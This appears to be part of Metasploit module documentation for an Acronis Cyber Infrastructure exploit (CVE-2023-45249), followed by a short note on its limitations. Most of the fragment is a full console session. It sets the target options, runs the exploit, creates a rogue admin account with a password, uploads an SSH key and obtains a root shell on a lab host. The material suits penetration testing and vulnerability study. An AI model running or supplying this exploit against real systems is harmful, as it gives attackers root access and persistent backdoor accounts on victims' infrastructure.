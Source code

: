 ```msf
|          +.     |
|         . .     |
|          .      |
+----[SHA256]-----+
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set target 1
target => 1
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set PRIV_KEY_FILE /tmp/aci_rsa
PRIV_KEY_FILE => /tmp/aci_rsa
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set rhosts 192.168.201.5
rhosts => 192.168.201.5
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 4.7.1-53
[*] Creating admin user gzarzyh with password XiloxPsdto for access at the Acronis Admin Portal.
[*] Saving admin credentials at the msf database.
[*] Using your own SSH private key file: /tmp/aci_rsa in PEM format.
[*] Saving SSH public and private key pair at the msf database.
[*] Uploading SSH public key at the Acronis Admin Portal.
[*] Authenticating with SSH private key.
[*] Executing Interactive SSH for generic/ssh/interact
[*] SSH session 1 opened (192.168.201.8:40083 -> 192.168.201.5:22) at 2024-09-20 09:40:22 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux aci-471-53.vstoragedomain 3.10.0-1160.41.1.vz7.183.5 #1 SMP Thu Sep 23 18:26:47 MSK 2021 x86_64 x86_64 x86_64 GNU/Linux
ls -l .ssh
total 4
-rw------- 1 root root 872 Sep 20 11:40 authorized_keys
cat .ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCauf4JO4xGHWulsoHHOwTXztTvJ4FQz92RTicFIqqHOPvR3vsXkWYJP4vE109/ZnUh64jsMqMb+x66q3+D86rts/ST4smpMjQpL2uwfrn3KHKwVmH7vMYb07q4F8M2nw4TgzYcsXONqAyxmbW0ZJ3P3CdlXXiXMvyUmy55OyVgaBnjoiE1GJxXnssCqPMkf0MaZfZqaaBk3onaKnJ4pRROHe1LEaagSM7dOHjS1F6ViVUYtcfFLQfXj4Q7WsWS5uSUy6HkxDn5PNvzUli7SDJ5aPTDqmmeDjzoVlUl7ZP4CYZlrTpZ1v0C0IuI3qlZmuHPuGaCDN7ymPsRUV71aqv3 root VSTOR-KEY-ID:1966f610-e22a-4147-bec3-4cfb945bdee7
```

## Limitations
When using your own SSH private key, be aware of the fact that you can not upload the same SSH public key twice via Acronis Web Portal.
Duplicate SSH public keys are not allowed and the exploit will fail if this occurs.
